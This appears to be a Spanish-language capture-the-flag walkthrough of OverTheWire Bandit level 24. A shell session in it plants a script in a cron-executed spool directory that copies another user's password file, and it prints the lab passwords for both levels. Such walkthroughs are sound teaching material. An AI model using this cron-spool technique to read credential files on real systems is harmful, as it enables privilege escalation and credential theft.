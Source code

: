 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso
+ user -> bandit23
+ password -> QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G


## Solución
``` bash

bandit23@bandit:~$ 
bandit23@bandit:~$ ls -la /etc/cron.d/
total 56
drwxr-xr-x   2 root root  4096 Feb 21 22:04 .
drwxr-xr-x 108 root root 12288 Feb 21 22:04 ..
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit22
-rw-r--r--   1 root root   122 Feb 21 22:03 cronjob_bandit23
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit24
-rw-r--r--   1 root root    62 Feb 21 22:03 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Feb 21 22:04 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done


bandit23@bandit:~$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ ls -la
ls: cannot open directory '.': Permission denied
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/pass24
mkdir: cannot create directory ‘/tmp/pass24’: File exists
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/dark24
bandit23@bandit:/var/spool/bandit24/foo$ cd /tmp/dark24
bandit23@bandit:/tmp/dark24$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/dark24/password" > mio.sh  
bandit23@bandit:/tmp/dark24$ chmod 777 mio.sh
bandit23@bandit:/tmp/dark24$ touch password
bandit23@bandit:/tmp/dark24$ chmod 666 password
bandit23@bandit:/tmp/dark24$ ls -la
total 100
drwxrwxr-x    2 bandit23 bandit23  4096 Feb 24 19:27 .
drwxrwx-wt 2464 root     root     94208 Feb 24 19:28 ..
-rwxrwxrwx    1 bandit23 bandit23    54 Feb 24 19:26 mio.sh
-rw-rw-rw-    1 bandit23 bandit23     0 Feb 24 19:27 password
bandit23@bandit:/tmp/dark24$ cp mio.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/mio.sh': Operation not permitted
bandit23@bandit:/tmp/dark24$ cp mio.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/dark24$ cat password
bandit23@bandit:/tmp/dark24$ cat password
bandit23@bandit:/tmp/dark24$ cat password
bandit23@bandit:/tmp/dark24$ ls -la
total 104
drwxrwxr-x    2 bandit23 bandit23  4096 Feb 24 19:27 .
drwxrwx-wt 2466 root     root     94208 Feb 24 19:32 ..
-rwxrwxrwx    1 bandit23 bandit23    54 Feb 24 19:26 mio.sh
-rw-rw-rw-    1 bandit23 bandit23    33 Feb 24 19:32 password
bandit23@bandit:/tmp/dark24$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/dark24$ 








```
## Notas adicionales
Se crea una carpeta temporal para poder realizar un script, el script consiste en mandar todo lo del usuario 24 a la carpeta temporal depues se manda el script a la ruta /var/spool/bandit24/mio.sh para que se ejecute y posteriormente nos de el comando. 


## Referencias